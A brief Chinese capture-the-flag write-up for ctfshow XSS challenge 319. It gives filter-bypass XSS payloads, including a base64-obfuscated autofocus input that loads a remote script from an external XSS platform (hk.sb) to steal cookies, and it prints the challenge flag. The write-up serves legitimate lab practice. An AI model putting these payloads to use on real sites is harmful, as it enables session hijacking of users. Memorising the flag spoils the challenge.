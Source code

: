 # ctfshow-xss319



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```js
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>
<input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IvVWZWYiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>
虽然没有弹框但是已经记录了cookie


ctfshow{656472ca-d028-43ae-a208-a684e73f343f}


```

